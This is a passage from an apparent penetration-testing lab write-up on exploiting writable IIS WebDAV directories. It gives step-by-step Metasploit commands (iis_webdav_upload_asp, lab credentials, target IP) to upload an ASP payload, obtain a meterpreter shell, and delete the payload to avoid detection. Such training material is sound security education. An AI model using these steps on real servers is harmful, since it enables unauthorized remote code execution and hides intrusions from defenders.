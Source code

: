 So in order to execute it, we head back to `/webdav/` directory and click on the shell.asp. It has been executed.

If you go back to terminal, you can see it is going to sending stage and it tells us meterpreter session 1 opened, and we have successfully gain the access to the target system.

```
meterpreter > sysinfo
```

Get our current privileges:

```
meterpreter > getuid
meterpreter > exit
msf6 exploit(multi/handler) > sessions
```

This is one of the technique that you can utilize go through the process of generating payload, manually uploading it using cadaver.

There is another techniques you can utilize, this technique essentially envolve utilizing a metasploit framework model, this model allows us to automate this entire process.

This allows us to upload a malicious or a meterpreter ASP file, that will provide us with meterpreter session onto the webdav server automatically.

[Microsoft IIS WebDAV Write Access Code Execution](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp/)

Microsoft IIS WebDAV 写访问代码执行

此模块可用于在具有全局可写目录的 IIS 服务器上执行有效负载。有效负载通过 WebDAV PUT 请求作为 ASP 脚本上传。目标 IIS 机器必须满足以下条件才能被视为可利用：它允许“脚本资源访问”、读取和写入权限，并支持 ASP。

It is going to start reverse tcp handler, it is going to check webdav. In this case is generating a new ASP file that will then be uploaded to the target, it's then going to authenticate, and once it authenticate successfully, it is then going to upload the asp payload, and it then rename it to the ASP file, it then execute the ASP payload, and it also delete the metasploit ASP payload for you in order to avoid detection, so you can see it sends the stage, and get a meterpreter session.

```
msf6 exploit(multi/handler) > search iis upload
msf6 exploit(multi/handler) > use exploit/windows/iis/iis_webdav_upload_asp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > show options
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpUsername bob
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set HttpPassword password_123321
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set RHOSTS 10.2.30.233
msf6 exploit(windows/iis/iis_webdav_upload_asp) > set PATH /webdav/metasploit.asp
msf6 exploit(windows/iis/iis_webdav_upload_asp) > exploit
meterpreter > sysinfo
meterpreter > getuid
```

If you head into webdav, you can it actually delete the ASP payload generated.

```
10.2.30.233/webdav/
```
